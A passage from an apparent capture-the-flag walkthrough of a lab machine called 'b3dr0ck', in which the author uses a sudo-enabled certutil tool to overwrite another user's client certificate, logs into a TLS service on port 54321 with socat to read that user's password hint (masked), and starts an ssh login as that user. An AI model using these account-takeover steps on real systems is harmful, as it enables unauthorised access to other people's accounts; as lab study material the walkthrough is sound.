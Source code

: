                                                                                  

Welcome: 'F11snipe FTW' is authorized.
b3dr0ck&gt; help
Password hint: none (user = 'F11snipe FTW')
b3dr0ck&gt; 
</pre>
</li>
<li>Yay, We're in with our new credentials! But it looks like the hint is empty (new user)</li>
<li>Let's see if we can get here as user <strong>fred</strong></li>
<li>Back to <strong>certutil</strong>, let's try to overwrite fred's credentials with new ones we have access to</li>
<li>
<pre>barney@b3dr0ck:~$ sudo certutil fred "Fred Flintstone"
Generating credentials for user: fred (Fred Flintstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
****************************************************************
****************************************************************
****************************************************************
****************************************************************
****************************************************************
****************************************************************
****************************************************
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
****************************************************************
****************************************************************
****************************************************************
********
-----END CERTIFICATE-----
</pre>
</li>
<li>It worked! The <strong>certutil</strong> tool doesn't validate or block on duplicate user/file names.</li>
<li>Let's connect again to port <strong>54321</strong> as fred with these creds</li>
<li>
<pre>socat stdio ssl:$VMIP:54321,cert=fred.cert,key=fred.key,verify=0


 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck&gt; help
Password hint: **************** (user = 'Fred Flintstone')
b3dr0ck&gt; 
</pre>
</li>
<li>There we go! Let's try ssh as <strong>fred</strong> now...</li>
<li>
<pre>ssh fred@$VMIP  
fred@10.10.215.234's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)
